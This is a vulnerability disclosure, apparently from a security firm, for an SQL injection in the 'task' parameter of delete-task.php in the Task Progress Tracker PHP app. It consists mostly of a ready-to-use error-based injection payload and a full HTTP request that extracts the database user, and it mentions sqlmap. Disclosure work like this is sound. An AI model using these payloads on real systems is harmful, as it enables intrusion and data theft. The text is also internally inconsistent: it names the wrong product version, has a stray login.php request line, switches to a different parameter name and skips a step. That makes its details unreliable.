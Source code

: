 # Task Progress Tracker - delete-task.php 'task' SQL inject

#### Exploit Title: Task Progress Tracker - delete-task.php 'task' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17479/task-progress-tracker-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17479&title=Task+Progress+Tracker+Using+PHP+and+MySQL+with+Source+Code

#### Version: Accounts Manager App 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Task Progress Tracker does not filter the content correctly at the "task" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET http://192.168.67.35:8093/endpoint/delete-task.php?task=4'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、Visit the homepage, click to delete the entry, and after capturing the package, find that the file used is delete-task.php

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/sql1.png)

2、Upon reviewing the source code, it was discovered that the task parameter was directly concatenated into the SQL statement

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/sql3.png)

4、Construct error injection, annotate database username, and successfully reproduce SQL injection vulnerability.

payload:`account=6'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/sql2.png)

5、You can also directly use the sqlmap tool to run the results

![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/sql4.png)
